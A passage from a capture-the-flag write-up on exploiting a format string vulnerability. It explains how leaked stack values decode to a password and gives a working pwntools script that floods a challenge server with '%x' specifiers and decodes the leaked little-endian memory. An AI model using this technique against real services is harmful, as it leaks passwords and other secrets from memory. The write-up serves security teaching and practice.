 The string `ehTssapdrow` stands out as some form of actual text - it's 'little-endian' ordering of the ascii string `The password`.

## Exploiting the vulnerability

We can automate an exploit with the `pwntools` python module:
- open a connection to the `netcat` server,
- send loads of '%x' format specifiers when prompted for input,
- and finally parse and decode the response.

Considering that some byte arrays may not translate to valid ASCII representations (such as the aforementioned `f7f77620`), we can handle any errors by simply ignoring these as unnecessary.

```python
from pwn import *

context.log_level = "CRITICAL"
host, port = "challenges.0x0539.net", 7070
format_str = "%x " * 299


def decode_bytes(dword: bytes) -> str:
    try:
        # reverse byte order after hex conversion to
        # account for little-endian encoding
        decoded = bytes.fromhex(dword).decode("ascii")[::-1]
        return "".join([ch for ch in decoded if 32 <= ord(ch) <= 126])

    except UnicodeDecodeError:
        # return unchanged array if it can't be decoded
        print(f"UnicodeDecodeError on byte array '{dword}'.\n")
        return f" {dword} "


def main():
    s = remote(host, port)
    s.recvuntil(b"you!\n")
    s.sendline(format_str)
    raw_bytes = s.recvall().decode().strip()

    # print raw bytes from stack to stdout
    print(f"\nbyte array:\n{raw_bytes}\n")
    dwords = raw_bytes.split(" ")

    # pad incorrect array lengths
    dwords = [dword.zfill(8) for dword in dwords]
    decoded_dwords = "".join([decode_bytes(dword) for dword in dwords])

    print(f"leaked:\n{decoded_dwords}")


main()
```
